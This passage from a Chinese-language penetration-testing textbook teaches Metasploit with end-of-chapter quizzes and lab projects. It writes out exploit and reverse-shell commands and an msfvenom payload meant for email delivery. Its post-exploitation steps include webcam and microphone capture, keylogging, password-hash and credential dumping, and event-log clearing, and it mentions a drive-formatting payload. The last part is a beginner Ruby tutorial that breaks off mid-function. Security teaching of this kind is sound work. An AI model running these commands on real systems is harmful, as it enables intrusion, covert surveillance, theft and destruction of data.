你将获得连接到你的客户端的系统信息。然后输入：

```
getuid
```

你将获得客户端的用户和机器名。图 13-18 显示了 sysinfo 和 getuid 命令的结果。


图 13-17 会话。


图 13-18 目标计算机上。

请注意，对于这些示例，我将目标计算机命名为“target-PC”。如果你真的想验证你是否控制了客户端，输入：

```
shell
```

现在你将在该 Windows 7 计算机上获得一个 Windows shell。你可以从 Windows 风格的命令提示符辨认出来。你可以按图 13-19 所示在客户端上导航。

完成后，输入 exit 返回到 Metasploit meterpreter 命令提示符。如果你想返回到主 Metasploit 提示符，再次输入 exit。但要小心，因为如果输入第三次，你将退出 Metasploit。我们将在本章后面探讨更多可在利用后执行的操作。首先，让我们看看其他几个利用程序。


图 13-19 在目标计算机上导航。

### 文件格式利用

此利用与之前的利用类似，但有一些差异。由于我们已非常详细地检查了上一个利用，这里我们只讨论差异。

```
use exploit/windows/fileformat/ms15_100_mcl_exe
set payload windows/meterpreter/reverse_tcp
set lhost YOURKALI IP
set lport 443
set srvhost yourIP
set srvport differentport
exploit
```

因此，你将设置监听主机和监听端口。服务器主机与监听主机相同，但服务器端口不同，如图 13-20 所示。

这个有点不同。目标机器不会打开浏览器；相反，他们在“开始 > 运行”中输入 IP 和路径。在本例中：

```
\\10.0.2.20\hyzgu\msf.exe
```

现在你可能会想，如何让最终用户点击链接，或在“开始 > 运行”菜单中输入某些内容？这就是社会工程学发挥作用的地方。如前一章所述，许多攻击最终都是社会工程学。此外请注意，每次利用后你可能遗留了一些正在运行的服务。务必始终运行 jobs 查看是否仍有正在运行的服务，然后在进行下一个利用之前终止该作业。


图 13-20 文件格式利用。

### 远程桌面利用

这个更像是一种扫描，而不是直接利用。但它是在检查目标是否存在特定的远程桌面漏洞，该漏洞会让你通过远程桌面进入该机器：

```
use auxiliary/scanner/rdp/ms12_020_check
set RHOSTS YOURTARGETIP
set RPORT 3389
set THREADS 1
```

你可以在图 13-21 中看到结果。


图 13-21 RDP 利用。

## 更多利用

显然，可能存在成千上万的利用程序。本章的目标是向你介绍 Metasploit，而不是让你精通它。但在本节中，我们将简要介绍几个其他利用。我将提供更少的细节。如果你真正研究过前面的利用程序，那么这些的机制应该对你来说相当明显。

### Windows XP DCOM 攻击

此利用攻击 Windows XP 中涉及分布式组件对象模型（DCOM）处理方式的缺陷。你会注意到，此利用不需要用户点击任何内容。它只是尝试通过暴力方式进入机器。如常，替换为你已设置的 IP 地址：

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.177
set PAYLOAD generic/shell_reverse_tcp
set LHOST 192.168.1.234
exploit
```

### 图标 DLL 加载器

此利用确实要求目标机器导航到特定的 IP 地址。当然，它只有在目标机器存在特定漏洞时才有效：

```
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader
set payload windows/meterpreter/reverse_tcp
set SRVHOST YOURKALIIP
set LHOST YOURKALIIP
exploit
```

### 常见错误

你会看到的最常见错误是：

```
exploit completed, but no session was created
```

“未创建会话”消息在出现以下任一情况时会出现：

- 你使用的利用程序对所选目标无效。问题可能是利用程序适用于不同版本，利用代码存在问题，或目标配置存在问题。
- 你使用的利用程序配置为使用不创建交互式会话的 payload。在这种情况下，框架无法知道利用是否成功，因为在成功时它不会从目标接收连接。

## 后利用

一旦通过之前的任何攻击进入，你会想在该机器上做些什么。我们已经查看了一些可以尝试的简单操作，但现在让我们看看其他一些操作。所有这些都是在目标上获得会话后从 meterpreter shell 执行的。

### 获取已登录用户

这很简单，并且会告诉你谁登录到目标机器：

```
run post/windows/gather/enum_logged_on_users
```

你可以在图 13-22 中看到结果。


图 13-22 已登录用户。

### 检查虚拟机

虚拟机可用于许多目的。但一个常见用途是作为蜜罐。因此，如果你进入一台机器，你可能想知道它是否是虚拟机。只需使用以下命令：

```
run post/windows/gather/checkvm
```

你可以在图 13-23 中看到结果。


图 13-23 检查虚拟机。

### 枚举应用程序

可能值得注意目标机器上有哪些应用程序。此利用将为你完成此操作：

```
run post/windows/gather/enum_applications
```

你可以在图 13-24 中看到结果。


图 13-24 枚举应用程序。

### 更深入地探索目标

如果你能够利用目标并运行后利用，你可能希望在目标上更进一步。先通过在 meterpreter 提示符下使用 ps 找出该机器上有哪些正在运行的进程，如图 13-25 所示。

现在你可以使用以下命令尝试迁移到任何进程：

```
migrate processid
```

用目标进程的实际进程 ID 替换 processid。这可能成功，也可能失败。如果失败，你可以尝试使用以下命令获取提升的权限：

```
use priv
getsystem
```


图 13-25 使用 run ps 发现正在运行的进程。

但这些并不能保证有效。到本书的这个阶段，你应该意识到没有什么东西是真正有保证的。你也可以尝试使用 Metasploit 对目标机器进行监视：

```
webcam_list
```

然后选择摄像头并输入：

```
webcam_snap
```

如果你厌倦了用目标机器的摄像头拍照，那么就使用麦克风录音：

```
record_mic
```

record_mic 如图 13-26 所示。


图 13-26 使用 record_mic 进行麦克风录音。

webcam_snap 是我在实际渗透测试中经常使用的一种。这对目标机器完全不会造成任何伤害，并且会说明需要更好的安全措施。事实上，许多人会感到不安，当你的渗透测试报告中包含他们在办公桌前的照片时。通常，在克服了最初的不安之后，他们会更加认真地对待安全问题。

还有一些其他后利用模块可以尝试。当然，没有什么能保证有效，但你可以尝试以下这些：

- **run post/windows/gather/usb_history:** 这将获取所有曾经连接到该机器的 USB 设备。
- **run post/windows/gather/hashdump:** 这将转储 Windows 密码的哈希值。然后你可以通过彩虹表对它们进行破解。
- **run post/multi/recon/local_exploit_suggester:** 这个就比较明显了。
- **use post/windows/gather/enum_patches:** 找出该机器上有哪些补丁。这将让你知道什么可能有效，什么无效。
- **run post/windows/gather/credentials/credential_collector:** 这将尝试获取本地凭据。

## 摘要

本章介绍了 Metasploit 的基本要素。在完成本章以及末尾的项目后，你将对 Metasploit 有一个实用的了解。显然，单靠一章内容并不能让你成为 Metasploit 专家。事实上，关于 Metasploit 已经写了整本书籍，而且没有任何一本涵盖所有内容。但如果你花时间仔细学习本章的材料并真正掌握它，你将拥有扎实的实用知识。网上有大量资源可以帮助你学习特定的利用和技术。我们的目标是让你获得基本的实用知识。

## 测试你的技能

### 多项选择题

1. 当前版本的 Metasploit 使用什么语言编写？
   A. Python
   B. Perl
   C. Ruby
   D. C++

2. 如何查看给定利用的设置？
   A. show options
   B. show settings
   C. show exploits
   D. show parameters

3. 你已经完成了一个利用并希望尝试另一个。什么命令可以让你退出当前利用？
   A. exit
   B. end
   C. exit -e
   D. back

4. 以下哪一项会尝试使用 Metasploit 进行权限提升？
   A. getsystem
   B. getadmin
   C. migrate
   D. elevate

5. 一旦你获得了目标的会话，执行在目标上的利用的术语是什么？
   A. Meterpreter
   B. Payloads
   C. Attacks
   D. Post exploits

## 项目

### 项目 1：Metasploit 扫描

首先设置一台目标 Windows 计算机。对于本项目，可以是任何版本的 Windows。如果愿意，你可以在该目标上开启 FTP 或安装 SQL Server。然后尝试本章中的每一种扫描。

### 项目 2：基础 Metasploit

首先设置一台目标 Windows 7 计算机，最好是没有 service pack 1 的。然后尝试本章中的第一个利用：

```
use exploit/windows/browser/ms11_003_ie_css_import
set payload windows/meterpreter/reverse_tcp
set URIPATH /clickhere
set LHOST 10.0.2.20
exploit
```

一旦进入，尝试基本后利用模块：

```
sysinfo
getuid
shell
```

然后退出 shell，并尝试几个后利用模块：

```
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
run post/windows/gather/enum_applications
```

现在退出此利用，杀死任何作业，并用本章中的另一个利用重复操作。

### 项目 3：自行寻找

搜索 Rapid7 Exploit 数据库并找到另一个你认为会对目标有效的利用。最好找到三到四个，因为你第一次尝试的可能不会成功。但尝试让一个新的利用生效。

## 更多关于 Metasploit

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 执行额外的后利用命令
- 使用 msfvenom
- 使用新的 Metasploit 利用

在第 13 章“Introduction to Metasploit”中，你学习了如何使用 Metasploit 的基础知识。你应确保完全掌握了这些技术，然后再继续本章。在本章中，你将扩展现有的 Metasploit 技能。

### Meterpreter 和后利用

由于本节涉及后利用，你首先需要一个成功的利用。为此，我使用了第 13 章中的 exploit/windows/browser/ms11_003_ie_css_import 利用针对 Windows 7 计算机。你可以使用任何你想要的利用；只要在尝试任何后利用之前确保你有一个成功的会话即可。

### ARP

在第 13 章中，一旦建立会话，我们探索了几种获取目标计算机信息的方法。其中一个有趣的信息来自 arp 命令，如图 14-1 所示。


图 14-1 ARP。

这会告诉你与目标计算机关联的 IP 地址和 MAC 地址。这些信息对于稍后尝试将攻击转向目标网络上的其他机器将很有用。

### NETSTAT

netstat 是一个用于发现给定机器上网络连接的常用命令，如图 14-2 所示。


图 14-2 Netstat。

同样，这可以显示附近的计算机。它还会显示你自己的 Kali 机器连接到目标。更重要的是，你可能会看到你刚刚利用的机器是否正在与某个安全设备（如 SIEM 或 IDS）通信。

### PS

运行 ps 命令会显示目标机器上正在运行的进程。这将为你提供进程 ID，以便你可以尝试迁移到这些进程。它还可以显示可能检测到你入侵的正在运行的安全服务。图 14-3 说明了 ps 命令的使用。


图 14-3 ps。

### 导航

正常的 Linux 导航命令也可用。第一步通常是运行 ls 来查看你所连接的文件夹中的内容。然后你可能希望更改文件夹。图 14-4 显示了这两个步骤。

### 下载和上传

一旦你导航到某个目录，你可以下载或上传任何你想要的东西。在我看来，这是 Metasploit 最强大的方面之一。从渗透测试的角度来看，只需将 JPG 或 txt 文件上传到桌面即可证明你曾在那里。从恶意攻击者的角度来看，攻击者可以获取任何他或她想要的文件，并上传任何类型的软件。在图 14-5 中，我已导航到目标机器上的 Documents 文件夹并下载了一个名为 secretstuff.txt 的文件。

显然，在此演示中，secretstuff.txt 文件中并没有真正秘密的内容，但你可以看出导航目标机器并获取任何你想要的文件是多么简单。上传任何东西也同样容易。


图 14-4 ls 和 cd。


图 14-5 下载文件。

### 桌面

你可以非常轻松地与目标桌面交互。第一步是确定该目标有多少个桌面。这可能看起来是个奇怪的问题，但如果它是一个多用户系统，那么每个用户都会有一个桌面。你可以使用以下命令枚举桌面：

```
enumdesktops
```

其后是命令

```
getdesktop
```

后跟你想要交互的桌面的编号，如图 14-6 所示。


```
meterpreter > enumdesktops
Enumerating all accessible desktops

Desktops
========

Session Station Name
-------- -------- ----
1 WinSta0 Default

meterpreter > getdesktop 1
Session 1\WinSta0\Default
meterpreter > 
```

FIGURE 14-6 使用桌面。

其中一个令人着迷的事情是，你可以对桌面进行快照。如图 14-7 所示，只需输入以下命令：

```
screenshot
```

```
meterpreter > getdesktop 1
Session 1\WinSta0\Default
meterpreter > screenshot
Screenshot saved to: /root/vAdCfQYx.jpeg
meterpreter > 
```

FIGURE 14-7 屏幕截图。

图 14-8 是来自目标桌面的实际屏幕截图。


FIGURE 14-8 实际屏幕截图。

## 相机

当我教授 Metasploit 时，学生们总是喜欢捕获目标机器的网络摄像头。这些命令在第 13 章中提到过，但在这里会提供更多细节。从渗透测试的角度来看，没有什么比向高管展示用他自己的网络摄像头拍摄的图片更能强调安全需求的了。从攻击者的角度来看，网络摄像头显然是一个强大的攻击向量。

第一步就是简单地输入命令

```
webcam_list
```

如果目标连接了任何网络摄像头，它们将被列出。然后你可以使用以下任一命令

```
webcam_snap
```

或

```
webcam_stream
```

如果没有错误，使用 webcam_snap 你将获得摄像头的静态图像，或使用 webcam_stream 进行实时视频流。

如果目标有麦克风，你也可以尝试：

```
record_mic
```

这些命令都非常简单——要么成功，要么失败；没有需要排查的问题。如果命令失败，可能是目标有网络摄像头或麦克风，但未正确配置。

## 键盘记录器

你还可以实时记录目标系统上的用户正在输入的内容。你从以下开始：

```
keyscan_start
```

然后完成时，输入：

```
keyscan_dump
```

图 14-9 显示了结果。


FIGURE 14-9 键盘记录。

也可以使用以下命令进行变体：

```
use post/windows/capture/keylog_recorder
```

## 其他信息

有几个其他命令可以从目标机器获取信息。这些命令中的每一个对你运行都可能有用。以下是其中几个：

- **run get_application_list**：这将列出目标上安装的所有应用程序，除操作系统自带的应用外。这在第 13 章中提到过。
- **run post/windows/wlan/wlan_profile**：这将列出目标计算机连接过的所有无线局域网的完整配置文件，包括密码。
- **clearev**：这是一个重要的命令。这将清除事件日志。从渗透测试的角度来看，你可能希望避免使用它，因为它会清除目标系统上的所有日志。
- **run event_manager -i**：这比 **clearev** 更好的选择。此命令让你与事件管理器交互。

## msfvenom

msfvenom 本质上结合了 msfpayload 和 msfencode，以便你可以对有效载荷进行编码然后发送到目标。它是一个强大的工具，是你应该熟悉的 Metasploit 的一部分。它在 Kali 中从 shell 使用，而不是在 Metasploit 内部使用。你可以先尝试 **msfvenom -h**，如图 14-10 所示。


FIGURE 14-10 msfvenom -h.

你可以使用命令 **msfvenom -l payloads** 列出所有可用的有效载荷，如图 14-11 所示。


FIGURE 14-11 **msfvenom 有效载荷。**

两个最重要的标志是 **-p**，它定义你要部署的有效载荷，以及 **-f**，它定义格式。你想部署可执行文件？PDF 文件？AVI 文件？这些都是选项。

让我们看一个例子。假设你想将反向 tcp shell 部署为可执行文件：

```
windows/meterpreter/reverse_tcp
```

然后你将把该可执行文件发送到目标，也许作为电子邮件附件。如果你的 IP 地址是 192.168.56.101，那么你的整个命令是：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe -o mypayload.exe
```

你可以在图 14-12 中看到这一点。现在忽略未选择架构的消息；我们稍后会处理这个问题。


FIGURE 14-12 向目标发送可执行文件。

现在，如果你在 Kali 机器上导航到默认目录，你将找到 mypayload.exe，如图 14-13 所示。


FIGURE 14-13 mypayload.exe.

我之前提到我们忽略了架构。有效载荷必须针对特定的计算机架构进行定制。如果不选择一个，msfvenom 将默认为 x86 架构。

现在你对如何使用 msfvenom 有了基本了解，让我们更仔细地看看标志。以下是最重要的标志：

- **-p** 指定你要交付的 Metasploit 有效载荷。
- **-f** 指定输出格式（.exe、.avi、.pdf 等）。
- **-e** 指定你要使用的编码器。
- **-a** 指定要攻击的目标架构（默认为 x86）。

这些并不是唯一的标志，但它们是最关键且最常用的标志。我们尚未使用过的一个标志是 -Platform。它针对你试图攻击的特定平台。该标志有许多选项，其中一些列在这里：

- Windows or windows
- OSX or osx
- Solaris or solaris
- BSD or bsd
- OpenBSD or openbsd
- Unix or unix
- Linux or linux
- Cisco or cisco
- Android or android

请注意，你可以选择大写首字母，也可以不。因此，把所有内容放在一起，这里是我们之前示例中选择了所有标志的情况：

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/
reverse_tcp lhost=192.168.56.101 lport=4444 -f exe -o mypayload.exe
```

你可以使用 msfvenom 将任何 Metasploit 有效载荷，甚至你自己创建的自定义有效载荷，放入文件中。然后如何将它交付给目标就由你决定了。电子邮件附件仍然是一种非常有效的方式。

## 更多 Metasploit 攻击

在第 13 章中，我们专注于保证有效的攻击，至少在没有服务包的 Windows 7 目标上。概念是让你习惯如何使用 Metasploit，在一个保证成功的环境中。然而，你可能已经意识到这是一个人为的场景，与现实世界系统相差甚远。在本节中，我们将研究对各种目标的攻击。然而，没有任何一种是保证有效的。你可能会尝试其中每一个，但只有一两个能成功。然而，是时候让你进入 Metasploit 学习中的下一阶段，并更接近现实世界的场景了。

## 格式化所有驱动器

此漏洞利用最好作为 msfvenom 模块交付。我警告你，这个非常具有破坏性。我不建议在渗透测试中使用它。然而，它可以在测试机器上使用，只是为了强调附件可能造成的破坏程度。顾名思义，它旨在格式化目标机器上的所有驱动器。并且易于使用，如图 14-14 所示。


FIGURE 14-14 格式化所有驱动器。

很难夸大你在使用此类漏洞利用时应多么谨慎。

## 攻击 Windows Server 2008 R2

你可能会想，为什么我们要处理如此旧的服务器操作系统？特别是对于服务器来说，较旧的操作系统相当常见。

此漏洞利用本应影响 Windows Server 2008 R2，尽管我发现它成功率不稳定。该漏洞利用，如图 14-15 所示，是 **exploit/windows/local/ms14_058_track_popup_menu**。


此漏洞利用基于 win32k.sys 中的漏洞，涉及空指针解引用。它在 TrackPopupMenu API 调用中使用，在某些情况下可用于执行代码。该漏洞利用的作者声称它已成功在 Windows Server 2003 SP2、Windows 2008 R2 以及 Windows 7 上执行。你可以在 https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu 获取有关此攻击的更多详细信息。

## 通过 Office 攻击 Windows

据称，此特定漏洞利用可在 Windows Vista、Windows 8、Server 2008 和 Server 2012 上运行，前提是 Windows 操作系统运行 Office 2010 或 2013。该漏洞利用，如图 14-16 所示，是 **exploit/windows/fileformat/ms14_060_sandworm**。

## 攻击 Linux

Windows 并不是你可以用 Metasploit 攻击的唯一操作系统。此漏洞利用攻击 Linux。它基于 Linux 内核缺陷。如图 14-17 所示，使用 **exploit/linux/local/sock_sendpage**。为了测试目的，Metasploit 提供了一个 Metasploitable Linux 虚拟机，你可以从 https://information.rapid7.com/metasploitable-download.html 免费下载。


图 14-16 通过 Office 攻击 Windows。


图 14-17 攻击 Linux。

## 通过 Web 攻击

此攻击实际上针对的是浏览器处理网页的方式。据称该攻击在 Linux 和 Macintosh 上有效，但最成功的还是在 Windows 上。如图 14-18 所示，漏洞利用为：

```
use exploit/multi/script/web_delivery
```

```
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show options

Module options (exploit/multi/script/web_delivery):
| Name | Current Setting | Required | Description |
|---|---|---|---|
| SRVHOST | 0.0.0.0 | yes | The local host to listen on. This must be an address on the local machine or 0.0.0.0 |
| SRVPORT | 8080 | yes | The local port to listen on. |
| SSL | false | no | Negotiate SSL for incoming connections |
| SSLCert |  | no | Path to a custom SSL certificate (default is randomly generated) |
| URIPATH |  | no | The URI to use for this exploit (default is random) |

Payload options (python/meterpreter/reverse_tcp):
| Name | Current Setting | Required | Description |
|---|---|---|---|
| LHOST |  | yes | The listen address |
| LPORT | 4444 | yes | The listen port |
```

图 14-18 基于 Web 的攻击。

## 另一种 Linux 攻击

在第 13 章中，你看到了几种获取 Windows 计算机反向 shell 的攻击。同样的操作也可以在 Linux 机器上尝试，使用诸如 linux/x86/meterpreter/reverse_tcp 之类的漏洞利用，如图 14-19 所示。

```
msf > use linux/x86/meterpreter/reverse_tcp
msf payload(reverse_tcp) > show options

Module options (payload/linux/x86/meterpreter/reverse_tcp):
| Name | Current Setting | Required | Description |
|---|---|---|---|
| DebugOptions | 0 | no | Debugging options for POSIX meterpreter |
| LHOST |  | yes | The listen address |
| LPORT | 4444 | yes | The listen port |
msf payload(reverse_tcp) >
```

图 14-19 Linux 反向 Shell。

这对 Metasploitable Linux 发行版应该效果很好。

## Linux 后期利用

如果你能够访问 Linux 机器，则有几个特定于 Linux 的后期利用。以下是一些示例：

- **use post/linux/gather/enum_configs:** 获取所有常见的 Linux 配置文件
- **use post/linux/gather/enum_system:** 获取系统信息
- **enum_users_history:** 获取当前用户的历史记录

## 摘要

在本章中，你学习了可以执行的额外后期利用攻击和扫描。第 13 章为你提供了访问目标的基本工具，而本章扩展了在获得访问权限后可以执行的操作。本章还研究了使用 msfvenom 创建有效载荷的基本技术。这些技术允许你创建有效载荷以传递 Metasploit 漏洞利用。最后，我们研究了几种新的攻击。结合第 13 章的材料，本章应能让你对 Metasploit 有基本的工作知识。

## 测试你的技能

## 多项选择题

- 1. 使用 Metasploit 时，arp 为你提供什么？
  - A. MAC 地址列表
  - B. 目标机器的 IP 和 MAC 地址列表
  - C. 目标子网的所有 MAC 地址列表
  - D. 目标子网的所有 IP 地址列表

- 2. 哪个命令可以访问你已建立会话的机器上的桌面？
  - A. enumdesktops
  - B. connect desktop 1
  - C. getdesktop 1
  - D. movetodesktop

- 3. 什么命令可以让你从被利用机器的网络摄像头获得实时视频？
  - A. webcam_stream
  - B. webcam_snap
  - C. webcam_capture
  - D. webcam_grab

- 4. clearev 命令的缺点是什么？
  - A. 可能损坏目标
  - B. 仅清除最近的日志条目
  - C. 清除所有日志条目
  - D. 禁用日志记录

- 5. 以下哪种方式是向目标传递 **msfvenom** 有效载荷的常见且有效的方法？
  - A. 诱骗用户浏览网站
  - B. 通过电子邮件或类似通信发送文件附件
  - C. 先利用目标，然后上传有效载荷
  - D. 发送带有有效载荷的 USB

- 6. **msfvenom** 的默认架构是什么？
  - A. x86
  - B. Windows
  - C. x4
  - D. Linux

- 7. 在 **msfvenom** 中，**-f** 标志表示什么？
  - A. 设置文件名
  - B. 设置格式
  - C. 设置文件位置
  - D. 设置分片

## 项目

## 项目 1：攻击 Linux

下载 Metasploitable Linux 并在虚拟机上设置。然后使用 Metasploit 并尝试使用本章所述的一个或多个 Metasploit Linux 攻击来利用该 Linux 计算机。

## 项目 2：msfvenom

使用 **msfvenom** 创建一个可执行的有效载荷。然后将该有效载荷复制到目标虚拟机，最好是已知存在漏洞的机器（如未安装服务包的 Windows 7）。然后在测试目标机器上，双击可执行文件并观察漏洞利用。

# 第 15 章

## 使用 Ruby 脚本编写简介

## 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 了解 Ruby 脚本编写的基础知识
- 编写基本的 Ruby 脚本
- 阅读并理解 Ruby 脚本

Ruby 是 Metasploit 使用的语言。因此，如果你想编写自己的 Metasploit 有效载荷，这是一项关键技能。在本章中，你将看到 Ruby 的一般介绍。如果你在另一种语言（C++、Java、PHP 等）有编程经验，那么这很可能是本书中最简单、最快的章节。如果你需要更多帮助，在本章末尾，我会为你指引一些互联网上的额外教程。无论如何，本章的目标并不是让你成为 Ruby 大师。这超出了单章的范围；然而，目标是让你足够理解 Ruby，以便能够阅读 Ruby 代码。

Ruby 是一种面向对象的编程语言。它由日本的松本行弘于 1993 年创建。近年来它变得相当流行。它在许多环境中使用。例如，Ruby on Rails 是一个相当流行的服务器端 Web 编程框架。

## 开始

你首先需要安装 Ruby 环境。你有几个选项。如果你在 Windows 上使用，请从这里开始：https://rubyinstaller.org/。Linux 或 Macintosh 用户应从这里开始：https://www.ruby-lang.org/en/downloads/。

或者，一些非常乐于助人的人为你设置了一个在线 Ruby 环境供你练习：

https://www.tutorialspoint.com/ruby_terminal_online.php

无论你使用的是在线 Ruby 环境还是 Windows、Linux 或 Mac 上的 Ruby，你都将通过输入以下内容开始 Ruby 编程：

```
irb
```

这将启动交互式 Ruby 命令。这在图 15-1 中显示自在线 Ruby 环境。


图 15-1 使用 Ruby 开始。

图 15-2 显示了 Ruby for Windows 命令行界面。


图 15-2 Ruby for Windows。

## 基本 Ruby 脚本编写

按惯例，Ruby 源文件具有 .rb 文件扩展名。在 Microsoft Windows 中，Ruby 源文件有时以 .rbw 结尾，如 myfile.rbw。Ruby 编码约定规定文件/目录名是类/模块名的全小写并带 .rb 扩展名。例如，Foo 类的名称为 foo.rb。

## 第一个脚本

是的，我将遵循教授编程的久经考验的传统，从“Hello World”程序开始。最常见的是你将在某个文本编辑器中工作，然后使用 Ruby 运行脚本。因此，使用你喜欢的任何文本编辑器并输入以下内容：

```
### hello.rb
puts 'Hello World'
```

# 表示注释。

现在你可以将此文件保存到任何你想要的位置。对于使用记事本的 Windows 用户，请记住将文件类型更改为所有文件，以便记事本不会在末尾添加 .txt。将文件保存为 hello.rb，如图 15-3 所示。


图 15-3 保存你的文件。

现在你可以通过简单地导航到该目录并输入以下内容来运行它：

```
ruby hello.rb
```

这在图 15-4 中显示。

因此现在你有两种编写 Ruby 代码的方式。你可以直接在交互式 Ruby 环境中编写，也可以在文本文件中编写代码，保存它，然后执行它。


图 15-4 运行你的文件。

你可能已经注意到本节开头简短脚本中出现的 puts 这个词。这意味着向屏幕显示内容。如果随后想获取用户输入的内容，就使用 gets。我们将在本章后面看到它的使用。

## 语法

现在让我们来看一些基本结构。你已经了解 puts 会向屏幕显示内容，但让我们在此基础上继续，并将更多语法添加到你的知识库中。

## 变量

Ruby 中有五种变量类型。它们是全局变量、实例变量、类变量、局部变量和常量（常量并不是真正的变量，因为根据定义它们不会变化）。

全局变量显然是全局作用域。当你定义它们时，它们以 $ 开头。未初始化的全局变量的值为 nil，因此始终为它们赋初始值。示例如下：

```
$last_name = "doe"
```

实例变量以 @ 定义。如果未初始化，它们也将具有 nil 值。示例如下：

```
@last_name = "doe"
```

类变量存在于类中（显而易见）并以 @@ 开头。你不能在未初始化的情况下使用类变量。示例如下：

```
@@last_name = "doe"
```

局部变量存在于某些包含代码（如 if 语句或循环）或函数的作用域内。它们以小写字母或 _ 开头；例如：

```
_last_name = "doe";
```

常量以大写字母开头，许多程序员喜欢对常量使用全大写。示例如下：

```
MAXVALUE = 10
```

你可能已经注意到，在 Ruby 中，与许多其他语言（C、C++、Java、C# 等）不同，每个语句都不需要以分号结束。

变量也可以是数组。在 Ruby 中创建数组非常简单。考虑以下两个数组声明：

```
a = [ 1, 2, 3, 5, 8, 13, 21 ]
b = [ 'tom', 'juan', 'fares' ]
```

第一个声明了一个名为 a 的数组。该数组包含著名的斐波那契数列的前几个数字。第二个包含男性名字，名为 b。正如你所见，创建数字或字符串的数组都非常容易。

## 运算符

Ruby 与所有编程和脚本语言一样，支持 +, -, *, /（加、减、乘、除）等基本数学运算。

Ruby 还支持其他运算符，总结如下：

- % 是取模运算符，简单来说就是除以两个数后只报告余数。是的，这对取模数学来说是一种过度简化，但对于编程来说已足够。
- ** 是 Ruby 执行指数运算的方式。所以，如果你有一个变量 a，并输入 a**3，这意味着“a 的立方”或 a³。
- == 比较两个变量以确定它们是否相同。与许多其他编程/脚本语言一样，单个 = 用于赋值，双重 == 用于求值。
- != 检查两个值是否不相等。
- < 是传统的小于运算符。当然，> 表示大于，<= 表示小于或等于，>= 表示大于或等于。

你还可以组合运算符。例如，+= 表示将两个数字相加并产生输出。如下所示：

```
a += 2
```

这是 a = a+2 的简写形式。

这里有一个基本的 Ruby 脚本，它将执行一些基本的数学运算：

```
### demo basic variables and math

#a global variable initialized to 0
anumber=0

# prompt the user to enter a number
puts 'enter a number to cube'

#put their number into the variable
anumber = gets.to_i

#compute and display the answer
answer = 0

answer = anumber**3

puts "#{anumber} cubed is #{answer}"
```

当你执行它时，你会看到图 15-5 所描绘的内容。


图 15-5 Ruby 中的基本数学。

这个基本脚本中有几项需要理解。虽然这是一个非常初级的脚本，但如果你完全理解它，你就迈向了理解基本 Ruby 脚本的道路。

让我们从检查变量声明开始：

```
anumber = 0
```

注意我们没有使用之前讨论的符号。那是因为这个非常简单的程序没有类或函数，因此没有不同类型的变量（实例、局部、类等）。

接下来你会看到我们使用 puts 语句提示用户：

```
puts 'enter a number to cube'
```

但现在你看到了新东西——如何从用户获取输入并将其放入变量中：

```
anumber = gets.to_i
```

如果这是一个字符串，我们只需写 gets。但因为我们正在寻找整数，所以是 gets.to_i（转换为整数）。

你可能会看到一些来源使用 gets.chomp 处理字符串。gets 会检索字符串输入，并在末尾带有空终止符（\n）。gets.chomp 会删除空终止符。

正如你可能猜到的那样，由于 gets.to_i 提供整数输入，是的 gets.to_f 将提供浮点值输入。

接下来，我们看到其中一个数学运算符被使用。这里我们取 anumber 中的值并将其提升到第三次幂，将答案放入变量 answer 中：

```
answer = anumber**3
```

最后，我们看到 puts 语句的修改。要在字符串内部向屏幕显示变量，我们将这些变量放在 #{ } 块中：

```
puts "#{anumber} cubed is #{answer}"
```

注意之前我们只用单引号使用 puts，而这里我们使用双引号。在许多情况下，两者都可以使用，但在插入变量时应使用双引号。

## 条件语句

我们经常希望根据某些条件采取不同的行动。在大多数编程语言中最常见的方法是 if 语句。在 Ruby 中基本结构是：

```
if somecondition
  then do this code
end
```

例如，如果你想检查某个数字是否为偶数，你可能会使用取模运算符来确定数字是奇数还是偶数，像这样：

```
if anumber % 2 == 1 then
  print "That's an odd number"
else
  print "That's an even number"
end
```

注意我们以 end 语句结束。这很重要。在我们的示例中我们有 if 和 else。你甚至可以有嵌套的 if 语句。以下示例程序展示了这一点：

```
### demo if statements

#a global variable initialized to 0
age=0

# prompt the user to enter age
puts 'enter your age'

#put their number into the variable
age= gets.to_i
puts "your age is #{age}"

if age <15
    puts "you are too young to drive"
else
    if age <21
        puts "you are too young to drink alcohol"
    else
        if age >65
            puts "you are old enough to retire!"
        end
    end
end
```

你可以在图 15-6 中看到此输出。


图 15-6 if 语句。

大多数编程语言都支持这一点。在 Ruby 中，它看起来与其他语言有点不同。这里是之前的代码，重写为 case 语句：

```
#a global variable initialized to 0
age = 0
# prompt the user to enter age
puts 'enter your age'

#put their number into the variable
age = gets.to_i
puts "your age is #{age}"
case age
when 1..15
    puts "you are too young to drive"
when 16..20
    puts "you are too young to drink"
when 65..100
    puts "you are old enough to retire"
else
    puts "hmmm you don't fit any category"
end
```

注意前例中使用的 case 语句有一个范围。例如，when 1..15 表示数字从 1 到 15。关于何时使用 case 语句与何时使用 if 语句没有绝对规则。一般来说，随着 if 语句变得更加复杂，你可能希望考虑 case 语句作为替代方案。

## 循环

在编程中，经常需要多次迭代给定代码片段。这通常通过某种循环来实现。以下是 Ruby 中简单 for 循环的示例：

```
### demo loops

#a global variable initialized to 0
i=0
for i in (1...4)
  print i," "
end
```

图 15-7 显示了输出。


图 15-7 for 循环。

我们将在下一节关于函数的部分更稳健地看到它的使用。我们也可以将其重写为 while 循环，如下所示：

```
i = 0
while i < 4
  print i, " "

  i = i + 1
end
```

输出几乎相同，可以在图 15-8 中看到。使用 while 循环时，初始的 0 也会打印到屏幕上。


图 15-8 while 循环。

## 基本函数

与大多数编程语言一样，您将希望编写函数。函数是将语句分组，以共同名称组织在一个块中。好的函数用于执行单一目标。例如，函数可以根据一定的本金和利率计算抵押贷款的月付款额。就像变量一样，您必须先定义函数，然后才能调用它：

```
def multiply(a,b)
  product = a * b
  return product
end
```

让我们将之前示例中看到的一些内容与我刚刚向您介绍的函数结合起来，制作一个更强大的 Ruby 示例程序。在这种情况下，我们将把 if 语句与一个函数结合起来，计算用户输入的数字的阶乘：

```
### demo factorial

#a global variable initialized to 0
i=0

puts "please enter an integer"
i = gets.to_i

def fact(n)
  if n == 0
    1
  else
